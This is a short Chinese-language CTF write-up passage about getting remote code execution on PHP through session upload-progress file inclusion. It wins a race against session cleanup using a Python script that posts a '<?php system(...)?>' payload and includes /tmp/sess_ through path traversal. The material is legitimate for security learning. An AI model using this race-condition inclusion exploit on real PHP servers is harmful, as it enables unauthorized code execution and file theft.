 但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，

**如何进行rce呢？**

**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。

```python
import io

import sys

import requests

import threading

sessid = 'whoami'

def POST(session):

    while True:

        f = io.BytesIO(b'a' * 1024 * 50)

        session.post(

            'http://2f0dc537-6285-4cc7-aff0-eea69296dbaa.node3.buuoj.cn/',

            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat /proc/self/cwd/flag.php');?>"},

            files={"file":('q.txt', f)},

            cookies={'PHPSESSID':sessid}

        )

def READ(session):

    while True:

        response = session.get(f'http://2f0dc537-6285-4cc7-aff0-eea69296dbaa.node3.buuoj.cn/?file=../../../../../../../../tmp/sess_{sessid}')    # 该题生成的session存放在/tmp目录下

        # print('[+++]retry')

        # print(response.text)

        if 'flag{' not in response.text:

            print('[+++]retry')

        else:

            print(response.text)

            sys.exit(0)

with requests.session() as session:

    t1 = threading.Thread(target=POST, args=(session, ))

    t1.daemon = True

    t1.start()

```